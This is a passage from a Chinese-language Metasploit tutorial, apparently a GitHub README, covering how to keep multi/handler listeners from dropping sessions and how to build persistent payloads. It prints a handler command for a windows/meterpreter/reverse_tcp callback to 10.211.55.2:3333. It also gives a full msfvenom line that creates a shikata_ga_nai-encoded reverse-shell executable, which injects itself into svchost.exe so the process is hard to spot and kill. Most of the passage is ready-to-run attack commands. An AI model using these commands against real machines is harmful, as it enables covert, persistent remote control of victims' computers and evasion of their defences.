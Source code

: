 ```bash
    x86/xor_dynamic               normal     Dynamic key XOR Encoder

```

#### 10.2 几个重要的监听参数

* 防止假session

  在实战中，经常会遇到假session或者刚连接就断开的情况，这里补充一些监听参数，防止假死与假session。

  ```msf
  msf exploit(multi/handler) > set ExitOnSession false   //可以在接收到seesion后继续监听端口，保持侦听。
  ```

* 防止 session 意外退出

  ```bash
  msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0  //默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0
  
  msf5 exploit(multi/handler) > set SessionExpirationTimeout 0 //默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭
  ```

* handler 后台持续监听

  ```bash
  msf exploit(multi/handler) > exploit -j -z
  ```

  使用`exploit -j -z`可在后台持续监听,-j为后台任务，-z为持续监听，使用Jobs命令查看和管理后台任务。`jobs -K`可结束所有任务。

  还有种比较快捷的建立监听的方式，在msf下直接执行：

  ```bash
  msf5 > handler -H 10.211.55.2 -P 3333 -p windows/meterpreter/reverse_tcp
  ```

* payload 可持续化

  一般来说使用msfvenom生成的payload会单独开启一个进程，这种进程很容易被发现和关闭（在任务管理器），在后期想做持久化的时候只能再使用`migrate`进行。

  其实在生成payload时可直接使用如下命令，生成的payload会直接注入到指定进程中。

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o  shell.exe
  ```

  生成的shell程序执行后会启动两个进程`shell.exe`和`svchost.exe`，关闭其中一个不会影响会话状态。唯一美中不足的是`svchost.exe`不是`system32`目录下的.

  在上面的生成payload参数中：

  （1）PrependMigrate=true `PrependMigrateProc=svchost.exe` 使这个程序默认会迁移到svchost.exe进程，自己测试的时候不建议到这个进程而是其他的持久进程。

  （2）使用-p指定使用的攻击载荷模块，使用-e指定使用x86/shikata_ga_nai编码器，使用-f选项告诉MSF编码器输出格式为exe，-o选项指定输出的文件名为payload.exe，保存在根目录下。

#### 10.3 原生态payload（46/71）
